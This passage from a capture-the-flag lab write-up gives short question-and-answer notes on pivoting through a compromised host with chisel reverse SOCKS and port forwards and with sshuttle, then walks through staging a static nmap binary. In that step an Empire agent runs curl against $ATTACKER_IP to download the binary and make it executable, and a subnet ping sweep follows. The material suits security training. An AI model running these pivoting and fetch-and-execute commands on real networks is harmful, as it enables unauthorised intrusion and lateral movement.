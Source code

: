 - What command would you use to connect back to this server with a SOCKS proxy from a compromised host, assuming your own IP is 172.16.0.200 and backgrounding the process?

> ./chisel client 172.16.0.200:4242 -R:SOCKS &

- How would you forward 172.16.0.100:3306 to your own port 33060 using a chisel remote port forward, assuming your own IP is 172.16.0.200 and the listening port is 1337? Background this process.

> ./chisel client 172.16.0.200:1337 R:33060:172.16.0.100:3306 &

- If you have a chisel server running on port 4444 of 172.16.0.5, how could you create a local portforward, opening port 8000 locally and linking to 172.16.0.10:80?

> ./chisel client 172.16.0.5:4444 8000:172.16.0.10:80

---

#### ***Pivoting** sshuttle*

- How would you use sshuttle to connect to 172.16.20.7, with a username of "pwned" and a subnet of 172.16.0.0/16

> sshuttle -r pwned@172.16.20.7 172.16.0.0/16

- What switch (and argument) would you use to tell sshuttle to use a keyfile called "priv_key" located in the current directory?

> --ssh-cmd "ssh -i priv_key"

- You are trying to use sshuttle to connect to 172.16.0.100.  You want to forward the 172.16.0.x/24 range of IP addreses, but you are getting a Broken Pipe error.

What switch (and argument) could you use to fix this error?

> -x 172.16.0.100

---

### ***Git Server** Enumeration*

First, download a compiled [nmap](https://github.com/andrew-d/static-binaries).
When you save it, change the name from "nmap" to "nmap-USERNAME"
In the directory where you saved it, start a webserver:

```bash
$ sudo python3 -m http.server 80
```

In your Empire Agent, in the Interact section, type the following command:

```bash
$ curl -o nmap-unknown http://$ATTACKER_IP:80/nmap-unknown && ls -lah && chmod +x nmap-unknown
```

Start the nmap scan:

```bash
$ ./nmap-unknown -sn 10.200.90.1-255 -oN nmap-unknown-results.txt
```

```
# Nmap 6.49BETA1 scan initiated Sat Aug 13 15:40:46 2022 as: ./nmap-unknown -sn -oN nmap-unknown-results.txt 10.200.90.1-255
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for ip-10-200-90-1.eu-west-1.compute.internal (10.200.90.1)
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.00068s latency).
MAC Address: 02:A7:A9:75:56:EB (Unknown)
Nmap scan report for ip-10-200-90-100.eu-west-1.compute.internal (10.200.90.100)
Host is up (0.00052s latency).
MAC Address: 02:7F:D8:04:10:D9 (Unknown)
Nmap scan report for ip-10-200-90-150.eu-west-1.compute.internal (10.200.90.150)
Host is up (-0.10s latency).
MAC Address: 02:55:C4:9C:86:39 (Unknown)
```